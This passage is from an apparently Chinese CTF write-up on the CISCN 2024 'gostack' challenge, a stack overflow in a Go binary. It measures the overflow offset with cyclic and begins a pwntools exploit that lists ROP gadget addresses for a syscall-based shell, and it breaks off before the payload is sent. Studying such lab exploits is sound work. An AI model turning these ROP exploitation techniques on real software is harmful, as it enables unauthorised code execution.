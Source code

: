 上面第一张是ida7.5的，第二张是ida8.3的

大致看一下代码，运行一下，用cyclic测量溢出点
go语言运行报错后会直接打印错误的返回地址，就不用gdb调试了
![](/img/wp/ciscn2024-初赛/gostack-cyclic.png)

得出溢出点464
![](/img/wp/ciscn2024-初赛/gostack-cyclic-l.png)

其实main_main_func2就是后门函数，不过懒得看代码了，直接用系统调用获取shell

### exp
```python
from pwn import *

p = process("./gostack")

context.log_level = 'debug'

# ROPgadget
rdi = 0x4a18a5 #0x00000000004a18a5 : pop rdi ; pop r14 ; pop r13 ; pop r12 ; pop rbp ; pop rbx ; ret
rsi = 0x42138a #0x000000000042138a : pop rsi ; ret
rax = 0x40f984 #0x000000000040f984 : pop rax ; ret
rdx = 0x4944ec #0x00000000004944ec : pop rdx ; ret
ret = 0x40201a #0x000000000040201a : ret
syscall = 0x4616C9 #0x00000000004616C9 : syscall ; ret

addr = 0x5978d8 # 随便找一个能写的地址，不行就换一个

# function
main = 0x04A0AC0

# send
#gdb.attach(p))

```